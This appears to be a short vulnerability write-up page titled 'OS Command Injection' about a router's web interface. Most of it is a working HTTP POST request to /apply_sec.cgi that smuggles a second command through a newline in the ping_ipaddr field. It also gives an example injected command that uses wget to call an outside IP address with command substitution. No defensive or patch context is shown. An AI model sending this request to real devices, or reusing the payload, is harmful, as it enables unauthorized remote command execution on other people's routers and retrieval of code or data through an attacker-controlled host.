 +++
title = "OS Command Injection"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++


## OS Command Injection

Make an HTTP POST request to the router, replacing "{URL_ENCODED_CMD}" with the desired command to run on the router like `wget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)`
```sh
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1
html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0a{URL_ENCODED_CMD}

```

